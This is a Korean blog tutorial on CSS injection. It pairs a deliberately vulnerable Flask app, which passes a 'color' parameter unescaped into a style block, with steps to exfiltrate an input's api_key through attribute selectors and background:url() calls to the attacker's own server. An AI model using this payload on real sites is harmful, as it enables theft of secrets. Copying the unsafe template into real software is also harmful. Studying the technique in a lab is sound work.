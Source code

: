 ```yaml
---
title: Ex - CSS Injection 
date: 2023-09-08
author: glasses96
categories: [WEB]
tags: [WEB, CSS Injection]
pin: true
math: true
mermaid: true
---
```


> **[CSS Injection](/posts/32) 실습을 해봅시다..**
{: .prompt-info }

---

## Code
Code는 app.py, index.html 코드가 존재합니다.

코드는 단순히 `color` 변수를 받아 index.html의 `h1 태그의 색상`을 변경합니다.
index.html에는 input으로 api_key가 존재합니다.

```py
from flask import Flask, render_template, request

app = Flask(__name__)
api_key = "S3CR3T_K3Y"

@app.route('/')
def index():
    color = request.args.get('color', 'black')
    return render_template('index.html', color=color, api_key=api_key,)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8888)

```

```html
<!DOCTYPE html>
<html>
<head>
    <title>CSS Injection Example</title>
</head>
<style>
    h1 {
            color: \{\{color | safe\}\}-->;
    }
</style>
<body>
    <h1>Hi CSS Injection</h1>
    <input value="\{\{ api_key \}\}">
</body>
</html>
```
-----

## How get api_key??
<span style="color:#9999FF">background: url</span>과 <span style="color:#9999FF">input\[attr^=value\]</span>을 이용하여 가지고 올 수 있습니다.

### Step 1. Find Point

color를 변경하여 색상이 변경되는 것을 확인할 수 있습니다.

![background_url](/assets/post/33/1.png)


### Step 2. IP Ping Back

<span style="color:#9999FF">background: url()</span> 으로 내 서버에 접근이 되는지 확인합니다.

![background_url](/assets/post/33/2.png)


### Step 3. Input Value Data Send Myserver

<span style="color:#9999FF">red;} input[value^=S]{background: url(myserver);}</span>

위와 같이 입력하면 input attr의 value가 S와 일치 하는 경우 myserver에 접근하게 됩니다.  
만약 틀릴 경우는 myserver에 접근하지 않습니다.

### Step 4. Repeat Step 3

BruteForce으로 하나씩 넣으면서 응답이 오는 값을 추가해줍니다.
이를 계속 반복합니다.

![background_url](/assets/post/33/3.png)


> 단 \<script\> 안의 데이터는 가지고 올 수 없습니다.
{: .prompt-warning }

